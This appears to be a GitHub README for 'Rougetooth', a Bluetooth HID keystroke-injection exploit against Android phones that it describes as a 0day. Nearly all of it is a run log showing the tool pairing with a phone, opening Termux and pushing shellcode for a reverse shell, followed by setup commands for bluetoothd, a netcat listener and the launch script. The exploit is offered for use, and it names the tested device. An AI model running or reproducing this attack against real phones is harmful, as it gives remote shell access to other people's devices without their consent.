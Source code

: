 **Rougetooth Bluetooth HID injection attack**

*This is 0day as of Apr 21, 2023*

```
[*] Reverse shell built for 10.0.2.2 on 6543
[*] Pairing to 08:AE:D6:6F:DD:F8
[!] Paired 08:AE:D6:6F:DD:F8 to DC:53:60:6C:FC:B3
[*] Prepped to send HID shellcode, using finder to find termux, then termux to pop a reverse shell from 08:AE:D6:6F:DD:F8...
[!] Go to another terminal and start a netcat listener on port 6543 to handle the shell!
[*] Registered HID profile
[!] Ready, waiting for connection from phone
[*] Control channel connected to 08:AE:D6:6F:DD:F8
[*] Interrupt channel connected to 08:AE:D6:6F:DD:F8
[*] Trying to attain control over device...
[*] Sending back to home screen
[*] Trying to pull up finder...
[*] Trying to find termux...
[*] Pushing shellcode now...
[!] Check your netcat listener for a shell!
[!] Exploit finished.
```


*setup*

Need to run `sudo systemctl stop bluetooth`, then run: `bluetoothd -P input`.

Start a netcat listener on 6543 on your local machine: `nc -l -p 6543 -v`

Now pair the device, and: `sudo ./run.sh [phone bt mac] [local ip addr]`.  Now on the phone, tap on the computer's controller alias in the bluetooth screen, and the exploit should proceed.

With a little luck, you'll see a shell from the phone pop up in netcat within about a minute.

**Tested on:**

*linux kernel 6.1.12, bluetoothd 5.66, python libraries: python-xlib 0.27, dbus-python 1.2.16*

*Samsung Galaxy S8 running android 9, termux installed.*

Have fun, and be safe!

 
